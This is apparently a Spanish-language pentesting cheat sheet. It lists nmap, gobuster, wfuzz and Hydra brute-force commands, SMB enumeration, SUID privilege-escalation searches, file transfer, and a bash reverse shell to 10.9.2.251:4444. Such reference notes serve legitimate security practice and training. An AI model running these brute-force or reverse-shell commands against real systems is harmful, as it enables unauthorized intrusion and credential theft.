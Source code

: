 # Pentesting - Notes

`Pentesting Notes` es una documento donde encontraras comandos para ayudarte rapidamente a realizar pentesting desde lo mas básico a lo avanzado.

## Nmap

1. Usar **-T2** para entornos reales

   ```bash
   nmap -p- --open -T5 -v -n <TARGET_IP> -oG allPorts
   ```

2. Si quiere que el escaneo sea muy pero muy rápido (no es aconsejado en pentesting real), utilizar el comando **-sS** (tcp syn port scan) y el parámetro **--min-rate** (controla el número de paquetes que quieres enviar, por ejemplo 5000 por segundo) y el comando **-Pn** (es para evitar el descubrimiento de host mediante la resolución de nombre del protocolo ARP). 

   ```bash
   nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn <TARGET_IP> -oG allPorts
   ```

3. Escaneo de **puertos**

   ```bash
   nmap -sC -sV -p22,80 <TARGET_IP> -oN targeted
   ```

4. Usando **script**

   ```bash
   nmap -sV -vv --script vuln <TARGET_IP>
   ```

## Gobuster

1. Para realizar ataques de **fuerza bruta** contra URI (directorios y archivos), subdominios DNS y nombres de host virtuales

   ```bash
   gobuster -u http://example.com -w wordlist.txt dir
   ```
   ```bash
   gobuster dir -u http://<TARGET_IP>:<PORT> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
   ```

## wfuzz

1. Para realizar ataques de **fuerza bruta** en APIs

   ```bash
   wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
   ```

## Hydra

1. Para realizar ataques de **fuerza bruta** de contraseñas FTP, SSH

   ```bash
   hydra -t 4 -l <username> -P /usr/share/wordlists/rockyou.txt -vV <TARGET_IP> ftp
   ```
   ```bash
   hydra -t 4 -l <username> -P /usr/share/wordlists/rockyou.txt -vV <TARGET_IP> ssh
   ```
   ```bash
   hydra -l <username> -P passlist.txt ftp://<TARGET_IP>
   ```
   ```bash
   hydra -l <username> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
   ```
   ```bash
   hydra -l <username> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "login/:username=^USER^&password=^PASS^:F=incorrect" -V
   ```

## Enum4linux: SMB

1. Enum4linux es una herramienta que se utiliza para enumerar recursos compartidos SMB tanto en sistemas Windows como Linux. Opciones **-U** (get userlist), **-M** (get machine list), **-N** (get namelist dump (different from -U and-M)), **-S**  (get sharelist), **-P**  (get password policy information), **-G** (get group and member list) and **-a** (all of the above (full basic enumeration)).

   ```bash
   enum4linux -a <TARGET_IP> 
   ```

2. Para acceder de forma remota al recurso compartido SMB

   ```bash
   smbclient //<TARGET_IP>/<SHARE>
   ```  

## Rockyou

1. Descomprimir

   ```bash
   gzip -d /usr/share/wordlists/rockyou.txt.gz
   ```

## SSH

1. Realizar un conexión remota

   ```bash
   ssh user@<TARGET_IP>
   ```
   ```bash
   ssh -oHostKeyAlgorithms=+ssh-rsa user@<TARGET_IP>
   ```

## NSF

1. Montar NFS compartidos

   ```bash
   sudo mount -t nfs IP:share /tmp/mount/ -nolock
   ```


# Linux: Privilege escalation

1. Buscar permisos en todos los archivos SUID

   ```bash
   find / -user root -perm -4000 -exec ls -ldb {} \; 
   ```
   ```bash
   find / -perm -u=s -exec ls -l {} \; 2>/dev/null 
   ```


# Data Base: SQL, MYSQL, SQLITE

1. Leear archivos sqlite
   
   ```bash
   sqlite3 example.db
   sqlite> .tables
   sqlite> PRAGMA table_info(customers);
   sqlite> SELECT * FROM customers;
   ```
   

# Linux: Comandos mas usados

1. Para trasnferir archivos usando nc

   Ejecutar en el host donde va a pasar los archivos
   ```bash
   nc -l -p 1234 > LinEnum.sh 
   ```
   Ejecutar host donde estan los archvios
   ```bash
   cat /home/user/tools/privesc-scripts/LinEnum.sh | nc 10.9.2.251 1234
   ```

2. Para trasnferir archivos usando python3 y wget o curl

   Ejetuar en donde estan los archivos
   ```bash
   python3 -m http.server 8080 
   ```
   Ejecutar en donde descargar los archivos
   ```bash
   wget http://10.9.2.251:8080/lse.sh -O /home/sn0w/lse.sh 
   ```
   ```bash
   curl -o /home/sn0w/lse.sh http://10.9.2.251:8080/lse.sh 
   ```
3. Encontrar archivos

   ```bash
   find -name passwords.txt 
   ```
   ```bash
   find -name *.txt 
   ```
 4. Poner en escucha con netcat

   ```bash
   nc -nlvp 4444
   ```
 5. Crear una reverse shell TCP

   ```bash
   /bin/bash -c 'bash -i >& /dev/tcp/10.9.2.251/4444 0>&1'
   ``` 

# Sitios Web

1. Para descifrar hashes de contraseñas débiles

   ```bash
   https://crackstation.net/
   ```
2. Para buscar exploit's

   ```bash
   https://www.exploit-db.com/exploits/
   ```
3. Para buscar CVE's

   ```bash
   https://nvd.nist.gov/vuln/search
   ```
   ```bash
   https://cve.mitre.org/
   ```
   ```bash
   https://www.cvedetails.com/
   ```
4. Para codificar y decodificar

   ```bash
   https://gchq.github.io/CyberChef/
   ```
   ```bash
   https://appdevtools.com/base64-encoder-decoder
   ```


# Extensiones para web browser

1. Ripper Web Content | Capture Metadata Content

   Ofrecido por Miguel Segovia - Correo electrónico miguelsegovia21@gmail.com 
   ```bash
   https://chromewebstore.google.com/detail/ripper-web-content-captur/popfhajlkgkiecedhefhifccngogomgh?hl=es-419&utm_source=ext_sidebar
   ```

2. User-Agent Switcher for Chrome

   Desarrollador Google 1600 Amphitheatre Pkwy Mountain View, CA 94043 US - Correo electrónico cbe-cws-admins@google.com
   ```bash
   https://chromewebstore.google.com/detail/user-agent-switcher-for-c/djflhoibgkdhkhhcedjiklpkjnoahfmg?hl=es-419&utm_source=ext_sidebar
   ```
